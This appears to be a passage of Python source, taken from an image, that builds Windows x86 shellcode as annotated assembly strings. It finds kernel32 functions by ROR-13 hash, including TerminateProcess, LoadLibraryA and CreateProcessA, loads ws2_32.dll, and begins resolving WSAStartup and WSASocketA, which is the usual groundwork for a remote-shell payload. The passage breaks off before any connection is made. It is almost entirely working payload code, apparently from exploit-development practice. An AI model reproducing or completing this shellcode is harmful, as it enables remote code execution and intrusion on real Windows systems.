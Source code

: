```py
            "   add esi, ebx                        ;",  #   ESI = (VMA of the current symbol name)       

            "compute_hash:                           ", 
            "   xor eax, eax                        ;",  #   EAX = 0
            "   cdq                                 ;",  #   EDX = 0
            "   cld                                 ;",  #   Clear direction flag (DF)

            "compute_hash_again:                     ",
            "   lodsb                               ;",  #   Load the next byte from esi into al
            "   test al, al                         ;",  #   Check for NULL terminator
            "   jz compute_hash_finished            ;",  #   If the ZF is set, we've hit the NULL terminator
            "   ror edx, 0x0d                       ;",  #   Rotate edx 13 bits to the right
            "   add edx, eax                        ;",  #   Add the new byte to the accumulator
            "   jmp compute_hash_again              ;",  #   Next iteration

            "compute_hash_finished:                  ", 
            
            "find_function_compare:                  ",
            "   cmp edx, [esp+0x24]                 ;",  #   Compare hashes
            "   jnz find_function_loop              ;",  #   jump if it does not match
            "   mov edx, [edi+0x24]                 ;",  #   AddressOfNameOrdinals RVA
            "   add edx, ebx                        ;",  #   AddressOfNameOrdinals VMA
            "   mov cx, [edx+2*ecx]                 ;",  #   Extrapolate the function's ordinal
            "   mov edx, [edi+0x1c]                 ;",  #   AddressOfFunctions RVA
            "   add edx, ebx                        ;",  #   AddressOfFunctions VMA
            "   mov eax, [edx+4*ecx]                ;",  #   Get the function RVA
            "   add eax, ebx                        ;",  #   Get the function VMA
            "   mov [esp+0x1c], eax                 ;",
            
            "find_function_finished:                 ",
            "   popad                               ;",  #   Restore registers
            "   ret                                 ;",

            "resolve_symbols_kernel32:               ",
            push_terminateprocess_hash,                  #   TerminateProcess hash
            "   call dword ptr [ebp+0x04]           ;",  #   Call find_function
            "   mov [ebp+0x10], eax                 ;",  #   Save TerminateProcess address for later
            push_loadlibrarya_hash,                      # LoadLibraryA hash
            "       call dword ptr [ebp+0x04]       ;",  # Call find_function
            "       mov [ebp+0x14], eax             ;",  # Save LoadLibraryA address for later
            push_createprocessa_hash,                    # CreateProcessA hash
            "       call dword ptr [ebp+0x04]       ;",  # Call find_function
            "       mov [ebp+0x18], eax             ;",  # Save CreateProcessA address for later
            "   load_ws2_32:                         ",
            "       xor eax, eax                    ;",  # Null EAX
            "       mov ax, 0x6c6c                  ;",  # Move the end of the string in AX
            "       push eax                        ;",  # Push EAX on the stack with string NULL terminator
            "       push 0x642e3233                 ;",  # Push part of the string on the stack
            "       push 0x5f327377                 ;",  # Push another part of the string on the stack
            "       push esp                        ;",  # Push ESP to have a pointer to the string
            "       call dword ptr [ebp+0x14]       ;",  # Call LoadLibraryA
            "   resolve_symbols_ws2_32:              ",
            "       mov ebx, eax                    ;",  # Move the base address of ws2_32.dll to EBX
            push_wsastartup_hash,                        # WSAStartup hash
            "       call dword ptr [ebp+0x04]       ;",  # Call find_function
            "       mov [ebp+0x1C], eax             ;",  # Save WSAStartup address for later usage
            push_wsasocketa_hash,                        # WSASocketA hash
```